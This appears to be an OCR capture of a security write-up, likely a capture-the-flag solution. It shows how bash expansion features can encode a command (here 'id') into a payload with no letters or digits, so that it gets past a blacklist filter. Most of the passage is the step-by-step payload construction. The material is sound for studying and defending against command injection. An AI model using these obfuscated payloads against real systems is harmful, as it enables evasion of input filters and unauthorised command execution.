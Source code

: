 ```bash
# Brace expansion
ls -la == {ls,-la}

# Indirect variable expansion
${!#} == $SHELL == bash

# Variable string length
$# == 0
${##} == 1

# Literal redirection
bash <<< 'command'

# Arithmetic expansion:
a=1; b=2
$((a+b)) == 3

# $-quoted string literals   
$ echo $'\x41' # print A (hex)
$ echo $'\101' # Also print A (octal)
```

Based on those analogies above, we might be able to craft a `non-alphanumeric` payload in the form of something like:

```bash
${!#}<<<${encoded_command}
```

**Payload crafting**

In order to have a simplest payload yet still functional, we may only substitute the blacklisted character, leaving the symbol character untouched, due to the behavior of `literal redirection`. As for the `space` limitation, we might consider of using `brace expansion`. Otherwise, the substitution process can be generalized as follows:

```md
Bash command: id

# Convert into octal-string representation
i --> 151; d --> 144

# Apply var-string length w/t arithmetic expansion
1 --> ${##}
4 --> $((${##}<<$((${##}<<${##}))))
5 --> $(($((${##}<<$((${##}<<${##}))))^${##}))

# Wrap into dollar-quoted string literal
i --> $\'\\${##}$(($((${##}<<$((${##}<<${##}))))^${##}))${##}\'
d --> $\'\\${##}$((${##}<<$((${##}<<${##}))))$((${##}<<$((${##}<<${##}))))\'

# Wrap it together, then execute using literal redirection
${!#}<<<$\'\\${##}$(($((${##}<<$((${##}<<${##}))))^${##}))${##}\'$\'\\${##}$((${##}<<$((${##}<<${##}))))$((${##}<<$((${##}<<${##}))))\'
```
